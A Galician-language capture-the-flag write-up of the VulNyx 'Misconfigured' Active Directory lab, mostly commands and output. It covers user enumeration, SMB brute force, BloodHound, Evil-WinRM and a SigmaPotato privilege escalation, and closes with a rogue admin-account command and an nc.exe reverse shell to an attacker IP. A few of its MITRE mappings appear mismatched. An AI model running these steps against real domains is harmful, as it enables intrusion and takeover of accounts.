

Doc vulnyx misconfigured
A máquina Misconfigured é moi interesante porque...
- Sistema operativo Windows Server 2019 con Active Directory
- Controlador de dominio (AD-DC) con LDAP e Kerberos
- Enumeración de usuarios mediante LDAP sen credenciais
- Ataque de forza bruta sobre SMB
- Descubrimento de credenciais en atributo LDAP (userpassword)
- Acceso con Evil-WinRM como usuario do grupo Remote Management Users
- Escalada de privilexios mediante SeImpersonatePrivilege
- Explotación con SigmaPotato para obter SYSTEM
Diagrama de ataque

Fase 1 – Recopilación
sudo arp-scan --interface=eth1 192.168.56.0/24
ping -c2 IP_VulNyx_Misconfigured -R # TTL ≃ 128 ⇒ Microsoft Windows
sudo nmap -sS -Pn -T4 -p- -vvv --min-rate 5000 IP_VulNyx_Misconfigured
Resultado do escaneo de portos:
PORT STATE SERVICE
53/tcp open domain
80/tcp open http
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
593/tcp open http-rpc-epmap
636/tcp open ldapssl
3268/tcp open globalcatLDAP
3269/tcp open globalcatLDAPssl
5985/tcp open wsman (WinRM)
9389/tcp open adws
47001/tcp open winrm
49664-49703/tcp open msrpc
Portos críticos identificados:
- Porto 53: DNS
- Porto 80: Microsoft IIS 10.0
- Porto 88: Kerberos
- Porto 389/636: LDAP/LDAPS
- Porto 445: SMB
- Porto 5985: WinRM
- Porto 3268/3269: Global Catalog LDAP
Fase 2 – Análise
Escaneo de servizos e versións
# Escaneo detallado dos portos principais
sudo nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 \
-sCV IP_VulNyx_Misconfigured -oN targeted -oX targeted.xml
Resultado do escaneo:
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-11-13 06:20:49Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: allsafe.nyx0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: MISCONFIGURED; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 7h59m57s
|_nbstat: NetBIOS name: MISCONFIGURED, NetBIOS user: <unknown>
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
Información crítica identificada:
- Dominio: allsafe.nyx
- Hostname: MISCONFIGURED
- Sistema: Windows Server 2019 Build 17763
- Controlador de dominio con Active Directory
Configuración do ficheiro hosts
# Engadir o dominio ao ficheiro /etc/hosts
echo "IP_VulNyx_Misconfigured allsafe.nyx misconfigured.allsafe.nyx" | sudo tee -a /etc/hosts
Enumeración web
# Identificar tecnoloxías web
whatweb http://IP_VulNyx_Misconfigured
# Obter cabeceiras HTTP
curl -I http://IP_VulNyx_Misconfigured
# Enumeración de directorios
gobuster dir -u http://IP_VulNyx_Misconfigured \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
Resultado:
- Microsoft IIS 10.0 con páxina por defecto
- Non se atoparon directorios ou ficheiros relevantes
- A web non é o vector principal de ataque
Enumeración de usuarios mediante LDAP
Estratexia:
- LDAP permite enumeración de usuarios sen credenciais en configuracións inseguras
- Usar listas de nomes de usuario comúns
- Identificar usuarios válidos mediante respostas de Kerberos
# Descargar listas de usuarios
# - top-usernames-shortlist.txt
# - xato-net-10-million-usernames.txt
# - A-Z.Surnames.txt
# Enumeración inicial con lista curta
netexec ldap IP_VulNyx_Misconfigured \
-u Downloads/top-usernames-shortlist.txt \
-p '' -k | grep -vi unknown
Resultado:
LDAP IP_VulNyx_Misconfigured 389 MISCONFIGURED [-] allsafe.nyx\guest: KDC_ERR_CLIENT_REVOKED
LDAP IP_VulNyx_Misconfigured 389 MISCONFIGURED [-] allsafe.nyx\administrator: KDC_ERR_PREAUTH_FAILED
Enumeración con lista de apelidos:
netexec ldap IP_VulNyx_Misconfigured \
-u Downloads/A-Z.Surnames.txt \
-p '' -k -t 200 | grep -vi unknown
Resultado:
LDAP IP_VulNyx_Misconfigured 389 MISCONFIGURED [-] allsafe.nyx\[usuario1.apelido1]: KDC_ERR_PREAUTH_FAILED
LDAP IP_VulNyx_Misconfigured 389 MISCONFIGURED [-] allsafe.nyx\[usuario2.apelido2]: KDC_ERR_PREAUTH_FAILED
Usuarios válidos descubertos:
[usuario1.apelido1][usuario2.apelido2]administratorguest(revoked)
Nota importante:
KDC_ERR_PREAUTH_FAILED indica que o usuario existe pero a autenticación fallou (contrasinal incorrecta).
KDC_ERR_CLIENT_REVOKED indica que a conta está deshabilitada.
Fase 3 – Explotación
Ataque de forza bruta sobre SMB
Preparar lista de contrasinais:
# Crear lista reducida de rockyou.txt
head -5000 /usr/share/wordlists/rockyou.txt > 5000-rockyou.txt
Ataque contra usuario [usuario1.apelido1]:
netexec smb IP_VulNyx_Misconfigured \
-u '[usuario1.apelido1]' \
-p 5000-rockyou.txt | grep -iv failure
Resultado:
Credenciais válidas atopadas:
- Usuario:
[usuario1.apelido1] - Contrasinal:
[contrasinal1]
Verificación de acceso remoto
Probar acceso con Evil-WinRM:
Resultado: Acceso denegado ([usuario1.apelido1] non pertence ao grupo Remote Management Users)
Probar con impacket-psexec:
Resultado: Acceso denegado ([usuario1.apelido1] non ten privilexios de administrador local)
Probar con impacket-smbexec e wmiexec:
impacket-smbexec allsafe.nyx/[usuario1.apelido1]:[contrasinal1]@IP_VulNyx_Misconfigured
impacket-wmiexec allsafe.nyx/[usuario1.apelido1]:[contrasinal1]@IP_VulNyx_Misconfigured
Resultado: Acceso denegado en ambos casos
Enumeración con BloodHound
# Crear directorio para datos de BloodHound
mkdir json && cd json
# Executar BloodHound-Python
bloodhound-python -c All \
-u '[usuario1.apelido1]' \
-p '[contrasinal1]' \
-ns IP_VulNyx_Misconfigured \
-d allsafe.nyx
Análise dos datos en BloodHound:
- Importar ficheiros JSON en BloodHound
- Buscar usuario
[usuario2.apelido2] - Examinar propiedades do usuario
Descubrimento crítico:
No atributo userpassword de [usuario2.apelido2] atópase:
Nota sobre userpassword en LDAP:
O atributo userpassword non debería conter contrasinais en texto claro. Esta é unha configuración moi insegura que permite a calquera usuario autenticado ler contrasinais doutros usuarios.
Acceso como [usuario2.apelido2]
Verificar grupo de [usuario2.apelido2]:
Segundo BloodHound, [usuario2.apelido2] pertence ao grupo Remote Management Users, que permite acceso por WinRM.
# Acceder con Evil-WinRM
evil-winrm -i IP_VulNyx_Misconfigured -u '[usuario2.apelido2]' -p '[contrasinal2]'
Saída:
Evil-WinRM shell v3.7
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\[usuario2.apelido2]\Documents>
Acceso exitoso como [usuario2.apelido2]
Obtención de flag de usuario
# Navegar ao Desktop
*Evil-WinRM* PS C:\Users\[usuario2.apelido2]\Documents> cd ..\Desktop
# Ler flag de usuario
*Evil-WinRM* PS C:\Users\[usuario2.apelido2]\Desktop> type user.txt
[FLAG_USER]
Flag de usuario conseguida
Fase 4 – Post-Explotación
Verificación de privilexios
*Evil-WinRM* PS C:\Users\[usuario2.apelido2]\Documents> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= =======
SeMachineAccountPrivilege Add workstations to domain Enabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
Privilexio crítico identificado:
- SeImpersonatePrivilege: Permite suplantar a identidade doutros usuarios
Información sobre SeImpersonatePrivilege
Que é SeImpersonatePrivilege?
SeImpersonatePrivilege é un privilexio en Windows que permite a un proceso suplantar a identidade dun cliente despois da autenticación.
Uso lexítimo:
- Servizos web (IIS) que necesitan acceder a recursos como o usuario autenticado
- Servizos que executan tarefas en nome doutros usuarios
Abuso para escalada:
- Se un usuario ten este privilexio, pode crear un proceso que force a SYSTEM a autenticarse
- Capturar o token de SYSTEM e crear un proceso como SYSTEM
Ferramentas de explotación
SigmaPotato:
- Evolución da familia de exploits Potato (RottenPotato, JuicyPotato, etc.)
- Permite escalada de privilexios mediante SeImpersonatePrivilege
- Compatible con Windows Server 2019
Repositorio GitHub:
https://github.com/tylerdotrar/SigmaPotato
Explotación con SigmaPotato
1. Descargar SigmaPotato.exe:
# Desde Kali
cd ~/Downloads
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.0/SigmaPotato.exe
2. Compartir mediante SMB:
3. Copiar SigmaPotato ao sistema remoto:
# Desde Evil-WinRM
*Evil-WinRM* PS C:\Users\[usuario2.apelido2]\Documents> cd C:\Windows\Temp
*Evil-WinRM* PS C:\Windows\Temp> copy \\IP_atacante\compartir\SigmaPotato.exe .
Nota: Substituír IP_atacante pola IP do atacante.
4. Executar SigmaPotato para cambiar contrasinal de Administrator:
Saída esperada:
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 732 | Token: 0x796 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 948
[+] Current Command Length: 30 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 2740
[+] Process Output:
The command completed successfully.
Explicación do ataque:
- SigmaPotato crea un named pipe e espera conexións
- Forzar a SYSTEM a conectarse ao named pipe
- Suplanta o token de SYSTEM usando SeImpersonatePrivilege
- Executa o comando
net user administrator abc123.como SYSTEM - Cambia a contrasinal de administrator a
abc123.
Acceso como Administrator
# Nova conexión Evil-WinRM como Administrator
evil-winrm -i IP_VulNyx_Misconfigured -u 'administrator' -p 'abc123.'
Saída:
Evil-WinRM shell v3.7
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
Acceso exitoso como Administrator
Obtención de flag de root
# Navegar ao Desktop de Administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
# Ler flag de root
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
[FLAG_ROOT]
Ambas flags conseguidas
Correspondencia de fases → MITRE ATT&CK – VulNyx: Misconfigured
| Fase | Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|---|
| 1. Recopilación | Descubrimento de host e servizos expostos | Scanning / descubrimento de servizos | T1595 – Active Scanning T1046 – Network Service Discovery |
CWE-200 – Information Exposure |
| Detección de controlador de dominio | AD enumeration | T1590 – Gather Victim Network Information T1018 – Remote System Discovery |
CWE-200 – Information Exposure | |
| 2. Análise | Enumeración de usuarios mediante LDAP sen credenciais | LDAP enumeration | T1087.002 – Account Discovery: Domain Account T1589.001 – Gather Victim Identity Information: Credentials |
CWE-200 – Information Exposure |
| Identificación de usuarios válidos ([usuario1.apelido1], [usuario2.apelido2]) | Kerberos user enumeration | T1589.003 – Gather Victim Identity Information: Employee Names | CWE-200 – Information Exposure | |
| 3. Explotación | Ataque de forza bruta sobre SMB | Brute force attack | T1110.001 – Brute Force: Password Guessing T1110.003 – Brute Force: Password Spraying |
CWE-521 – Weak Password Requirements |
| Obtención de credenciais de [usuario1.apelido1] | Credential compromise | T1078 – Valid Accounts T1078.002 – Valid Accounts: Domain Accounts |
CWE-521 – Weak Password Requirements | |
| Enumeración con BloodHound | AD enumeration and analysis | T1087.002 – Account Discovery: Domain Account T1069.002 – Permission Groups Discovery: Domain Groups |
CWE-200 – Information Exposure | |
| Descubrimento de contrasinal en atributo LDAP userpassword | Credential access from LDAP | T1552.004 – Unsecured Credentials: Private Keys T1087.002 – Account Discovery: Domain Account |
CWE-256 – Plaintext Storage of a Password | |
| Acceso con Evil-WinRM como [usuario2.apelido2] | Remote service exploitation | T1021.006 – Remote Services: Windows Remote Management T1078.002 – Valid Accounts: Domain Accounts |
N/A | |
| 4. Escalada | Identificación de SeImpersonatePrivilege | Privilege enumeration | T1082 – System Information Discovery T1033 – System Owner/User Discovery |
CWE-269 – Improper Privilege Management |
| Upload de SigmaPotato mediante SMB | Lateral tool transfer | T1570 – Lateral Tool Transfer T1021.002 – Remote Services: SMB/Windows Admin Shares |
N/A | |
| Explotación de SeImpersonatePrivilege con SigmaPotato | Token impersonation | T1134.001 – Access Token Manipulation: Token Impersonation/Theft T1068 – Exploitation for Privilege Escalation |
CWE-269 – Improper Privilege Management | |
| Cambio de contrasinal de Administrator | Account manipulation | T1098 – Account Manipulation T1098.003 – Account Manipulation: Additional Cloud Credentials |
N/A | |
| Acceso como Administrator | Privilege escalation | T1078.002 – Valid Accounts: Domain Accounts T1021.006 – Remote Services: Windows Remote Management |
N/A |
Comparativa: Familia de exploits Potato
RottenPotato vs JuicyPotato vs SigmaPotato
| Característica | RottenPotato | JuicyPotato | SigmaPotato |
|---|---|---|---|
| Windows Server 2019 | Non compatible | Compatible con limitacións | Totalmente compatible |
| Método | COM elevation | DCOM elevation | Named pipe impersonation |
| Complexidade | Baixa | Media | Baixa |
| Requisitos | SeImpersonatePrivilege | SeImpersonatePrivilege + CLSID | SeImpersonatePrivilege |
| Configuración | Mínima | Requiere CLSID específico | Mínima |
| Estabilidade | Media | Alta | Moi alta |
Conclusión: SigmaPotato é a ferramenta máis moderna e recomendada para explotar SeImpersonatePrivilege en sistemas Windows actualizados.
Alternativas de escalada de privilexios
Outras ferramentas para SeImpersonatePrivilege
| Ferramenta | Descripción | Compatibilidade |
|---|---|---|
| SigmaPotato | Escalada mediante named pipe impersonation | Windows Server 2019/2022 |
| PrintSpoofer | Explota servizo Print Spooler | Windows 10/Server 2019 |
| RoguePotato | Evolución de JuicyPotato con OXID resolver | Windows 10/Server 2016+ |
| GodPotato | Exploit para Windows Server 2012-2022 | Windows Server 2012+ |
| EfsPotato | Explota servizo EFS (Encrypting File System) | Windows 10/Server 2016+ |
Comandos alternativos con SigmaPotato
# Engadir usuario ao grupo Administrators
.\SigmaPotato.exe "net localgroup administrators [usuario2.apelido2] /add"
# Executar comando arbitrario
.\SigmaPotato.exe "whoami"
# Crear nova conta de administrador
.\SigmaPotato.exe "net user hacker P@ssw0rd123! /add && net localgroup administrators hacker /add"
# Reverse shell con nc.exe
.\SigmaPotato.exe "\\IP_ATACANTE\share\nc.exe IP_ATACANTE 4444 -e cmd.exe"